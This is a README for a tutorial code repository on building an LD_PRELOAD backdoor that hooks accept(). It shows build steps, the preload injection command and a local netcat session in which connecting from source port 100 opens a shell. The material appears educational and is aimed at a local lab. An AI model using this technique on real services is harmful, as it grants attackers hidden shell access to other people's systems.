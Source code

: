 # LD_PRELOAD-accept-backdoor
Code samples to go along with the blog post on how to create an LD_PRELOAD backdoor hooking accept()

## Links to Tutorials
Blog: [LD_PRELOAD: Making a Backdoor by Hijacking accept()](https://www.secureideas.com/blog/ld_preload-making-a-backdoor-by-hijacking-accept)

## Overview
This repo is used to provide some code samples to go along side a tutorial in the Secure Ideas blog. This code repo will provide you with the code for:

 * A simple What's My IP server binary target
 * The LD_PRELOAD accept() backdoor code
 * A make file to build it easily in a Kali VM.

The goal of this tutorial is to show how to use LD_PRELOAD to turn any process using accept() into a potential backdoor. The backdoor triggers when an attacker connects to the service from TCP port 100 and will turn the service into a shell instead.

## Building The Code Using Make.
Once you clone the repo, simply change into the directory and run ```make``` or ```make all``` to build both the target and the LD_PRELOAD hijack shared object. The make file also includes a help option to show all of the build targets:

```
kali@kali:~$ make help
Default Target:
         all => Build standard non-debug builds of the accept_backdoor.so and whats_my_ip

What's My IP Targets:
         whats_my_ip => Build the whats_my_ip server application

Accept_Backdoor Targets:
         accept_backdoor.so => Build the standard non-debug build of the accept_backdoor.so
         accept_backdoor.so_debug => Build debug LD_PRELOAD accept_backdoor.so shared object.
         accept_backdoor.so_nocolor => Build non-colorized debug LD_PRELOAD accept_backdoor.so shared object.

Maintance Targets:
         clean => delete the binaries.

kali@kali:~$
```

## Basic What's My IP Usage
Standard What's My IP build and usage:
```
kali@kali:~$ make whats_my_ip
gcc -O3 src/whats_my_ip.c -o whats_my_ip
kali@kali:~$ /whats_my_ip 

        ---===[ What's my IP Service ]===---

 [*] Server started on 0.0.0.0:1337
 [*] Client Connected: 127.0.0.1:37056
 [*] Client Connected: 127.0.0.1:37058
^C
 [*]Caught Ctrl+C, Shutting down the server..

kali@kali:~$
```

From another terminal, you can simple connect to the service using netcat to use it normally.

```
kali@kali:~$ nc 127.0.0.1 1337

 [*] IP Address: 127.0.0.1
 [*] Source Port: 37056

kali@kali:~$ nc 127.0.0.1 1337

 [*] IP Address: 127.0.0.1
 [*] Source Port: 37058

```

## Building and injecting accept_backdoor.so
```
kali@kali:~$ make accept_backdoor.so          
gcc -O3 -FPIC -shared src/accept_backdoor.c -o accept_backdoor.so  -ldl
kali@kali:~$ D_PRELOAD=./accept_backdoor.so ./whats_my_ip

        ---===[ What's my IP Service ]===---

 [*] Server started on 0.0.0.0:1337
```

Then from another terminal, use netcat to connect to the services from TCP source port 100 to open the backdoor:

```
kali@kali:~$ nc 127.0.0.1 1337

 [*] IP Address: 127.0.0.1
 [*] Source Port: 37060
 
kali@kali:~$ sudo nc -p 100 127.0.0.1 1337
       _____ ______________  ______  ______
      / ___// ____/ ____/ / / / __ \/ ____/
      \__ \/ __/ / /   / / / / /_/ / __/   
     ___/ / /___/ /___/ /_/ / _, _/ /___   
    /____/_____/\____/\____/_/ |_/_____/   
                                           
        ________  _________   _____        
       /  _/ __ \/ ____/   | / ___/        
       / // / / / __/ / /| | \__ \         
     _/ // /_/ / /___/ ___ |___/ /         
    /___/_____/_____/_/  |_/____/          

 [+] Backdoor activated! Enjoy!

ls
total 44
-rw-r--r-- 1 kali kali  1216 May 18 10:55 Makefile
-rwxr-xr-x 1 kali kali 15768 May 18 10:59 accept_backdoor.so
drwxr-xr-x 2 kali kali  4096 May 17 14:50 src
-rwxr-xr-x 1 kali kali 16880 May 18 10:56 whats_my_ip
whoami
kali
exit

kali@kali:~$
```
